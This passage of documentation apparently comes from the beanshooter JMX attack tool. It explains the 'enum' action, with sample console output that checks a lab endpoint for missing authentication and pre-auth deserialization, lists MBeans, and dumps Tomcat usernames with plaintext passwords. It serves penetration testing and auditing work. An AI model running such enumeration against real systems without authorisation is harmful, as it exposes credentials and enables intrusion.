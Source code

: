 #### Enum

The `enum` action enumerates some configuration details on a *JMX* endpoint. It always checks whether the
*JMX* endpoints requires authentication and whether it allows pre authenticated arbitrary deserialization.

```console
[qtc@devbox ~]$ beanshooter enum 172.17.0.2 1090
[+] Checking for unauthorized access:
[+]
[+] 	- Remote MBean server requires authentication.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] Checking pre-auth deserialization behavior:
[+]
[+] 	- Remote MBeanServer accepted the payload class.
[+] 	  Configuration Status: Non Default
```

When authentication is not required, or when valid credentials were specified, the `enum` action also attempts to
enumerate some further information from the *JMX* endpoint. This includes a list of non default *MBeans* and
e.g. the user accounts registered on a *Apache tomcat* server:

```console
[qtc@devbox ~]$ beanshooter enum 172.17.0.2 1090
[+] Checking for unauthorized access:
[+]
[+] 	- Remote MBean server does not require authentication.
[+] 	  Vulnerability Status: Vulnerable
[+]
[+] Checking pre-auth deserialization behavior:
[+]
[+] 	- Remote MBeanServer rejected the payload class.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] Checking available MBeans:
[+]
[+] 	- 57 MBeans are currently registred on the MBean server.
[+] 	  Listing 39 non default MBeans:
[+] 	  - org.apache.tomcat.util.modeler.BaseModelMBean (Catalina:type=Valve,host=localhost,name=AccessLogValve)
[+] 	  - org.apache.tomcat.util.modeler.BaseModelMBean (Catalina:type=GlobalRequestProcessor,name="http-nio-8080")
[...]
[+]
[+] Enumerating tomcat users:
[+]
[+] 	- Listing 3 tomcat users:
[+]
[+] 		----------------------------------------
[+] 		Username:  manager
[+] 		Password:  P@55w0rD#
[+] 		Roles:
[+] 			   Users:type=Role,rolename="manager-gui",database=UserDatabase
[+] 			   Users:type=Role,rolename="manager-script",database=UserDatabase
[+] 			   Users:type=Role,rolename="manager-jmx",database=UserDatabase
[+] 			   Users:type=Role,rolename="manager-status",database=UserDatabase
[+]
[+] 		----------------------------------------
[+] 		Username:  admin
[+] 		Password:  s3cr3T!$
[+] 		Roles:
[+] 			   Users:type=Role,rolename="admin-gui",database=UserDatabase
```